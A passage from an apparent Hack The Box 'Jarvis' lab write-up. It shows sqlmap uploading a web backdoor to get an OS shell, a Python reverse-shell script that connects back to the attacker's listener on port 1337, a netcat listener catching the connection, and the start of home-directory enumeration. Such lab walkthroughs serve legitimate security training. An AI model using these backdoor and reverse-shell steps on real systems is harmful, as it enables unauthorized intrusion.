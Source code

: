 web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[17:14:19] [INFO] going to use a web backdoor for command prompt
[17:14:19] [INFO] fingerprinting the back-end DBMS operating system
[17:14:19] [INFO] the back-end DBMS operating system is Linux
...
[17:15:37] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpuypql.php
[17:15:38] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpbdenp.php
[17:15:38] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'www-data'
os-shell> 
{% endhighlight %}

<p>Excellent! We popped ourselves a shell! www-data is not necessarily ideal, and the sqlmap shell is also not ideal, so let's get our own python shell file and upgrade a bit.</p>

{% highlight python %}
root@kali:/var/www/html# cat shell1.py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.xxx.xxx",1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

<p>Moving it on to the host we setup a listener on our attacking machine and pull the trigger.</p>

{% highlight shell %}
nc -lvp 1337
Listening on [0.0.0.0] (family 2, port 1337)
Connection from 10.10.10.143 48892 received!
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
 17:27:49 up  4:34,  0 users,  load average: 1.09, 1.18, 1.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
{% endhighlight %}

<p>Slightly better. Let's take a poke at what we see.<p>

{% highlight shell %}
$ cd home
$ ls -latr
total 12
drwxr-xr-x  3 root   root   4096 Mar  2  2019 .
drwxr-xr-x 23 root   root   4096 Mar  3  2019 ..
drwxr-xr-x  5 pepper pepper 4096 Oct  2 13:38 pepper
$ cd pepper
total 36
drwxr-xr-x 3 root   root   4096 Mar  2  2019 ..
-rw-r--r-- 1 pepper pepper 3526 Mar  2  2019 .bashrc
-rw-r--r-- 1 pepper pepper  675 Mar  2  2019 .profile
-rw-r--r-- 1 pepper pepper  220 Mar  2  2019 .bash_logout
drwxr-xr-x 2 pepper pepper 4096 Mar  2  2019 .nano
lrwxrwxrwx 1 root   root      9 Mar  4  2019 .bash_history -> /dev/null
drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
-r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
drwxr-xr-x 5 pepper pepper 4096 Oct  2 13:38 .